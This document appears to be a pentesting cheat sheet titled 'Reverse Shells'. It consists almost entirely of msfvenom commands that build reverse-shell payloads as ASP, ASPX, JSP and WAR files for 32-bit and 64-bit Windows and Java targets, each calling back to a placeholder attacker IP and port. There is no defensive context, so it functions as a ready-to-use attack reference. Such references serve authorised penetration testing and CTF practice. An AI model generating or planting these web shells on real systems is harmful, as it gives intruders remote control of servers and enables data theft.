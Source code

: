 # Reverse Shells

## 01 - ASP

x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp
```

x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86-64.asp
```

## 02 - ASPX

x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx
```

x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86-64.aspx
```

## 03 - JSP

```
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o shell.jsp
```

## 04 - WAR

```
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o shell.war
```